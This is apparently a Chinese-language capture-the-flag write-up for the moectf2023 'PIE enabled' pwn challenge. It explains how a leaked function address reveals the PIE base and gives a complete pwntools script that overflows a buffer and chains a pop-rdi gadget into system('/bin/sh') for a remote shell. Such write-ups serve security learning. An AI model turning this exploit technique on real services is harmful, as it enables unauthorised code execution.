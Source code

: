 ```yaml
---
title: moectf2023 - PIE enabled
date: 2023/9/24 12:00:00
tags:
    - noob
excerpt: 利用vuln函数打印地址减去偏移量获取PIE基址，构造payload实现远程代码执行。
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

vuln函数直接把自己的地址打印出来了...直接减一减拿到piebase就和之前的题一样了

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46153)
sh.recvuntil(b'is:') # skip
elf = ELF('pwnpie')
vuln = elf.symbols['vuln']
pieBase = int(sh.recvline()[2:14], 16) - vuln # 做完才发现int可以直接从bytes转换，不一定是str
shstrAddr = pieBase + 0x4010
popRdiAddr = pieBase + 0x1323
systemAddr = pieBase + 0x11d8
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr))
sh.interactive()
```

Done.
